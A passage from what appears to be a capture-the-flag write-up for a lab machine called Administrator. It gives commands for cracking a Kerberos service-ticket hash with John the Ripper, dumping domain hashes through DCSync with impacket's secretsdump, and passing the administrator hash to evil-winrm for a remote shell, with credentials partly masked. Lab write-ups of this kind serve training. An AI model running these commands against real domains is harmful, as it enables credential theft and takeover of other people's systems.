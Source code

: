 Cracking the hash
```bash
john --wordlist=~/.local/share/seclists/rockyou.txt tgs.hash
john tgs.hash --show
```

## DCsync as ethan

![dc-sync.png](dc-sync.png)

Ethan can dc-sync, so we can use impacket's secretsdump to get a hash the administrator's hash
```bash
secretsdump.py Administrator.htb/ethan:l*********@dc.Administrator.htb
```

We pass-the-hash with winrm to get a winrm shell as administrator
```bash
evil-winrm -i administrator.htb -u administrator -H "3*******************************"
```

